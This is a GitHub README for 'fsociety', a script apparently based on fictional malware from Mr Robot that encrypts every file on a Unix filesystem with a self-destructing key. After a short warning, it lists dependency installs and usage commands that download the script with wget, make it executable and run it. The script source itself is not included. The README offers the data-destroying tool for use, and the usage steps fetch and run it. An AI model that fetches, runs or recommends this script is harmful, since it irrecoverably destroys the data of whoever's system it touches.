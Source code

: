 # fsociety
__WARNING: do not actually execute this. You will not be able to recover the files.__

This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a self-destructing, randomly generated key.

The fuxsocy.py script is based on Darlene's malware shown in Mr Robot

## S2E1:

![alt text](https://i.imgur.com/6RIogYa.jpg)

### Dependencies:

* Python3
* pycrypto

```shell
sudo apt install python3 python3-pip
```
```shell
sudo pip3 install pycrypto
```

### Usage:

```shell
wget https://raw.githubusercontent.com/joekendal/fsociety/master/fuxsocy.py
```
```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```
